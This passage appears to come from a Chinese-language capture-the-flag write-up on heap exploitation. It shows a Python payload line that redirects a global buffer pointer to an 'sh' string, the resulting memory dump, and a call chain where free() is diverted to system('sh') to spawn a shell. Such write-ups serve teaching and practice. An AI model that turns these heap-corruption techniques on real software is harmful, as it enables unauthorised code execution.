 接著 renew(huge) 把 small_buf 指到 'sh\x00' 字串位置

~~~python
payload = p64(0x6020b8) + 'sh\x00'
~~~

改完後 global buffer：

~~~assembly
0x6020a0:       0x00000000013b0040      0x00000000006020b0
0x6020b0:       0x00000000006020b8      'sh\x00'
~~~
call wipe(small)：
~~~
wipe(small) -> free(small) -> system(small) -> system('sh')
~~~

就拿到 shell 了！
